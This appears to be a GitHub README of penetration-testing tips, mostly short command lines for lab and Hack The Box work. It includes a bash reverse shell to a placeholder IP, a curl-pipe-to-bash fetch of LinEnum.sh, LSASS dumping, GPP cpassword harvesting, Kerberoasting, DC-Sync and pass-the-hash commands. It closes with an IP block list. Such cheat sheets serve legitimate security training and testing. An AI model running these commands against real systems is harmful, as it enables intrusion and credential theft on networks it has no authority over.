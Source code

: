 # Usefull-hacking-tips
Some books you want to read:<br>
<ul>
<li><a href="https://amzn.to/3TGFCpC" target="_blank">The OSINT Handbook: A practical guide to gathering and analyzing online information</a></li>
<li><a href="https://amzn.to/3PwtVzp" target="_blank"> Advanced Penetration Testing with Kali Linux: Unlocking industry-oriented VAPT tactics</a></li>
  <li><a href="https://amzn.to/3VregVQ" target="_blank">Fighting Phishing: Everything You Can Do to Fight Social Engineering and Phishing</a></li>
</ul>

usefull tips and tools for hacking
<ul>
  <li> create a file with a range of ip addresses: seq -f "10.10.10.%g" 1 254 > ip.txt
  <li> or use prips 10.0.0.0/23 > ip.txt (first install prips: apt install prips)
  <li>echo  $HISTFILE to check the history file location
</ul>

<b>Port scan commands</b>
<ul>
  <li> nmap -T4 -sV -sT --reason -p1-65535 --vv -oN 'filename' 'IP'
  <li> nmap -sC -sV -oA filename ip - ippsec parameters
  <li> nmap --script vuln 'IP'
  <li> nmap -sV -sC -A -oN filename ip
  <li> unicornscan -r300 -mU 'IP' - UDP scan. USE -mT for TCP
</ul>

<b>IpSec</b>
<ul>
  <li> python -m SimpleHTTPServer PORT
  <li> curl IP:PORT/LinEnum.sh | bash
</ul>

<b>SMB scan</b>
<ul>
  <li> smbclient -N //ip/sharename
</ul>

<b>Priv Esc</b>
<ul>
  <li> sudo -l
  <li> https://github.com/ohpe/juicy-potato  
</ul>

    
<b>Shell</b>
<ul>
  <li> python -c 'import pty; pty.spawn("/bin/sh")'
  <li> python -c 'import pty; pty.spawn("/bin/bash")'
  <li> bash -c 'bash -i >& /dev/tcp/YOURIP/PORT 0>&1'
  <li> when having a shell type CTRL-Z to background the shell. then type stty raw -echo and then fg
</ul>

<b>WPscan</b>
<ul>
  <li> wpscan -u URL -eu -ep -et
</ul>


<b>IPSEC hackthebox</b>
<ul>
  <li> juicypotato windows priv esc - Conceal https://www.youtube.com/watch?v=1ae64CdwLHE
  <li> setuid viewuser - Irked https://www.youtube.com/watch?v=OGFTM_qvtVI
  <li> hackthebox squid server - https://www.youtube.com/watch?v=5wyvpJa9LdU
</ul>

<b>Bloodhound</b>
<ul>
  <li> wget -O - https://debian.neo4j.org/neotechnology.gpg.key | sudo apt-key add -
  <li> echo 'deb https://debian.neo4j.org/repo stable/' | sudo tee /etc/apt/sources.list.d/neo4j.list
  <li> sudo apt-get update
  <li> apt-get install neo4j
  <li> apt-get install bloodhound
  <li> neo4j start (set the admin password in the browser)
  <li> bloodhound
</ul>

<b>Screenshot</b>
<ul>
  <li>gowitness-2.1.2-windows-amd64.exe scan --cidr 192.168.230.0/24 --threads 10
  <li>gowitness-2.1.2-windows-amd64.exe scan -f ip_in_file.txt --threads 10
  <li>gowitness-2.1.2-windows-amd64.exe report serve
</ul>

<b>Procdump</b>
<ul>
  <li> procdump lsass https://www.onlinehashcrack.com/how-to-procdump-mimikatz-credentials.php
  <li>
</ul>

<b>cpassword</b>
<ul>
  <li> findstr -S cpassword $env:logonserver\sysvol\*.xml
  <li> crack passwords with https://github.com/t0thkr1s/gpp-decrypt
</ul>

<b>Find string with grep</b>
<ul>
  <li> grep -oP '(?<="InsertSearchString": ")[^"]*'
  
</ul>

<b>Run pingcastle fromt CMD </b>
<ul>
  <li> PingCastle.exe --server dc.local --user xxxx --password xxxx --healthcheck
  <li> PingCastle.exe --server x.x.x.x --export users --user domainuser --password domainpassword
  
</ul>

<b>Find in Linux</b>
<ul>
  <li>find -L . -name "foo*"</li>
</ul>

<b>Kerberos attacks </b>
<ul>
  <li> From a non-domain PC: python GetUsersSPN.py -dc-ip x.x.x.x bla.local/account:password -request
  <li> or from a domain joined PC python GetUsersSPN.py bla.local/account:password -request
  <li>
  <li> DC-Sync attack: python secretsdump.py bla.local/account:password@dc1.bla.local
  <li> if that works you can use python wmiexec.py bla.local/account@dc1.bla.local -hashes "insert hash"
</ul>

<b>find installed MSI's</b>
<ul>
  <li> Get-WmiObject Win32_Product | Format-Table IdentifyingNumber, Name
  wmiexec /fa ID
</ul>


<b>Blacklist IP's when installing letsenscrypt</b>
180.188.243.95
79.137.68.184
134.122.89.242
144.126.198.24
51.81.245.138
45.142.96.48
168.151.165.42
180.149.11.253
119.12.180.71
18.170.66.210
161.35.246.138
51.75.141.254
46.246.122.80
34.220.105.216
185.220.100.247
104.129.18.188
154.47.30.167
84.247.116.160
45.87.212.76
104.244.209.36
34.248.137.227
54.247.57.72
37.19.210.17
66.115.189.222
51.81.46.212
135.148.100.196
96.9.246.196
5.181.234.134
104.166.80.40
104.166.80.254
45.56.71.92
79.125.7.88
66.115.165.233
